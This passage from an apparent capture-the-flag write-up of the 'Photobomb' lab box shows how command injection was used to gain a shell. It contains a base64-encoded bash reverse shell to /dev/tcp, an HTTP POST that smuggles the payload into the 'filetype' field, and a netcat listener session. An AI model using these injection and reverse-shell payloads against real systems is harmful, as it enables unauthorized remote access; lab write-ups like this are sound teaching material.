 This `wget` sent a request to my web server. So I knew I could execute code on the server. I used that to get a reverse shell. 

First I base64 encoded the reverse shell command to prevent having issues with special characters.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.143/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQzLzQ0NDQgMD4mMSAK
```

And I sent that command in the file type parameter.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg%3becho+-n+YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQzLzQ0NDQgMD4mMSAK+|+base64+-d+|+bash+%3b&dimensions=30x20
```

My netcat listener got a hit and I was on the server.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.143] from (UNKNOWN) [10.129.14.41] 47186
bash: cannot set terminal process group (705): Inappropriate ioctl for device
bash: no job control in this shell

wizard@photobomb:~/photobomb$ whoami
whoami
wizard

wizard@photobomb:~/photobomb$ ls ~/
ls ~/
photobomb
user.txt

wizard@photobomb:~/photobomb$ cat ~/user.txt
cat ~/user.txt
REDACTED
```

## Getting root
